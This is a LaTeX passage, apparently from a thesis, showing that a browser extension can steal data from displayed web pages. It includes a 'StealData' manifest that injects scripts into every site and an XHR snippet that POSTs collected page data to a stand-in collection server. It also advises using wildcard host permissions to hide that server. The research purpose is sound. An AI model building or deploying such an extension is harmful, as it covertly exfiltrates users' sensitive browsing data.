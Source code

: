 \documentclass[article,colorback,accentcolor=tud9c,type=bsc]{tudthesis}
\let\stdsubsubsection\subsubsection
\renewcommand\subsubsection{\newpage\stdsubsubsection}
\begin{document}
	In the following section we show that an extension is an efficient tool to steal sensitive information from displayed web pages. We implemented several content scripts that steal information from different occurrences and with different strategies. Once installed our extension read the displayed web pages, extracted valuable information, and sent these to an remote server. For that purpose it needs the following manifest file:
	
	\begin{lstlisting}
{
  "manifest_version": 2,
  "name": "StealData",
  "description": "Extension that steals data from the currently visible web page. Sends data to http://localhost:3000/log",
  "version": "1.0",
  "content_scripts" : [
    { "matches": [ "http://*/*", "https://*/*" ],
      "js" : ["jquery.js", "content.js"] }
  ]
}
	\end{lstlisting}
	
	Our manifest declares besides the necessary extension information only two content scripts which are executed in every web page. The first content script \texttt{jquery.js} is an instance of the popular JavaScript library \textit{jQuery} \footnote{jQuery homepage \url{https://jquery.com/}} which we use to simplify the interaction with the web page's DOM. The second content script \texttt{content.js} is one of our own implementations that steals sensitive information.
	
\subsubsection{Send Data}

	If we want steal data from a web page from inside the user's browser we first have to consider how to send the data to a remote server. Otherwise the data can not be labeled as "stolen". An extension is able to transfer data with a XMLHttpRequest to any host if it has proper host permissions declared. We, as an attacker, want to remain anonymous. Therefore, we do not want to reveal the remote server in the extension's manifest and hence use host permissions that match any host such as \texttt{"http://*/*", "https://*/*"} or \texttt{<all\_urls>}. The following code snippet shows how we send a message with an XHR to our remote server. \\ %
	
	\begin{lstlisting}
var xhr = new XMLHttpRequest();
xhr.open('POST', 'https://localhost:3001/log', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send(message);
	\end{lstlisting}
	
\end{document}
